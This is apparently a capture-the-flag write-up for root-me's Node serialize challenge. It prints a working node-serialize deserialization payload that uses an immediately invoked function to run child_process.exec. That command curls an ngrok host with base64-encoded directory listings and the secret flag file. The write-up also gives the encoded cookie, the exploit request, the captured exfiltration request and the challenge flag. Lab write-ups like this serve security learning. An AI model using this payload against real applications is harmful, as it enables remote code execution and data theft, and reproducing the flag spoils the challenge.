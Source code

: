 # root-me - Node - Serialize

```js
var profile = {
 userName : function(){
 require('child_process').exec('curl http://5249-1-55-197-127.ngrok.io?c=`ls -la / | base64`', function(error, stdout, stderr) { console.log(stdout) });
 },
 passWord : "hello",
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(profile));
```

**serialize results**:
```json
{"userName":"_$$ND_FUNC$$_function(){\n require('child_process').exec('curl http://5249-1-55-197-127.ngrok.io', function(error, stdout, stderr) { console.log(stdout) });\n }","passWord":"hello"}
```

Later I figured out that we can use JavaScript’s Immediately invoked function expression (IIFE) for calling the function. If we use IIFE bracket ()after the function body, the function will get invoked when the object is created. It works similar to a Class constructor in C++.

But to prevent it get execute from our machine other than victim machine, we add it by hand and base64 encode it

**edited to get the flag**:
```json
{"userName":"_$$ND_FUNC$$_function(){\n require('child_process').exec('curl http://d657-1-55-197-127.ngrok.io?c=`cat flag/secret | base64`', function(error, stdout, stderr) { console.log(stdout) });\n }()","passWord":"hello"}
//					^^
```


**base64 encoded**:
```
eyJ1c2VyTmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe1xuIHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdjdXJsIGh0dHA6Ly9kNjU3LTEtNTUtMTk3LTEyNy5uZ3Jvay5pbz9jPWBjYXQgZmxhZy9zZWNyZXQgfCBiYXNlNjRgJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7XG4gfSgpIiwicGFzc1dvcmQiOiJoZWxsbyJ9
```

And ....
```bash
curl 'http://challenge01.root-me.org:59067/' -H 'Cookie: profile=eyJ1c2VyTmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe1xuIHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdjdXJsIGh0dHA6Ly9kNjU3LTEtNTUtMTk3LTEyNy5uZ3Jvay5pbz9jPWBjYXQgZmxhZy9zZWNyZXQgfCBiYXNlNjRgJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7XG4gfSgpIiwicGFzc1dvcmQiOiJoZWxsbyJ9'
```

**captured request from ngrok**:
```
GET /?c=WTNwUzNyMGQzYzBtcDRuWTFzQjRkIQo= HTTP/1.1
Host: d657-1-55-197-127.ngrok.io
User-Agent: curl/7.68.0
Accept: */*
X-Forwarded-For: 2001:bc8:35b0:c166::151
X-Forwarded-Proto: http
Accept-Encoding: gzip
```

**flag**: `Y3pS3r0d3c0mp4nY1sB4d!`
